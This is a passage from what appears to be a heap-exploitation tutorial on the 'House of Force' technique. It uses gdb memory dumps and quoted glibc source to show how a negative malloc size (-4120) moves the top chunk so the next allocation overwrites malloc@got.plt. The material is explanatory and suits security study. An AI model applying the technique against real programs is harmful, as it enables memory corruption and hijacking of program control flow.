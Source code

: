 ```

0x7ffff7dd1b20 <main_arena>:	0x0000000100000000	0x0000000000000000

0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000

0x7ffff7dd1b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000

0x7ffff7dd1b50 <main_arena+48>:	0x0000000000000000	0x0000000000000000

0x7ffff7dd1b60 <main_arena+64>:	0x0000000000000000	0x0000000000000000

0x7ffff7dd1b70 <main_arena+80> : 0x0000000000000000 0x0000000000602020 &lt;=== top chunk at this point everything is fine
0x7ffff7dd1b80 <main_arena+96>:	0x0000000000000000	0x00007ffff7dd1b78

```

Next we execute `malloc(-4120);`,-4120 is how to get it?
First, we need to know the destination address to be written. Here, after I compile the program, 0x601020 is the address of `malloc@got.plt`


```

0x601020:	0x00007ffff7a91130 <=== malloc@got.plt

```

So we should point the top chunk to 0x601010 so that the next time we allocate the chunk, we can allocate the memory at `malloc@got.plt`.


After clearing the address of the current top chunk, according to the previous description, the top chunk is located at 0x602020, so we can calculate the offset as follows


0x601010-0x602020=-4112



In addition, the size of the memory requested by the user becomes an unsigned integer once it enters the function of applying for memory.


```c

void *__libc_malloc(size_t bytes) {

```



If you want the size of the user input to go through the internal `checked_request2size`, you can get this size, ie


```c
/*

   Check if a request is so large that it would wrap around zero when

   padded and aligned. To simplify some other code, the bound is made

   low enough so that adding MINSIZE will also not wrap around zero.

 */



#define REQUEST_OUT_OF_RANGE(req)                                              \

    ((unsigned long) (req) >= (unsigned long) (INTERNAL_SIZE_T)(-2 * MINSIZE))
```